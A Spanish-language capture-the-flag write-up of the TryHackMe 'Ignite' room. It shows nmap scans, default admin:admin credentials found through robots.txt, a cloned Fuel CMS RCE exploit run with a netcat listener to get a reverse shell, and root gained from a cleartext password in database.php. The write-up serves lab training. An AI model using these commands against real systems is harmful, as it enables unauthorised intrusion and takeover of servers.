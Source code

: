  https://tryhackme.com/r/room/ignite
 # Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.44.44
```
![[Pasted image 20240507183358.png]]
## Reconocimiento de servicios
```
nmap -sVC -p80 -Pn 10.10.44.44
```
![[Pasted image 20240507183435.png]]
## Reconocimiento Web
![[Pasted image 20240507190831.png]]
![[Pasted image 20240507190846.png]]
En robots.txt esta la ruta del panel de iniciar sesión que tiene el admin tiene la contraseña por defecto admin:admin
# Fase de ataque
## Fuel CMS RCE
La versión de Fuel es vulnerable a RCE 
![[Pasted image 20240507191134.png]]
## Para ganar acceso al sistema (Reverse Shell)

1. Copiamos el script de github
```
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated
```
3. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
2. Mandamos la Reverse Shell
```
python3 Fuel-Updated.py http://10.10.44.44/ 10.9.2.193 443
```
[-] ==pwned!==
# Privilege Escalation
En la configuración del fuel de la base de datos están las claves de root en texto claro.
En /var/www/html/fuel/application/config/database.php
![[Pasted image 20240507192414.png]]
```
su root
```
[+] ==pwned!==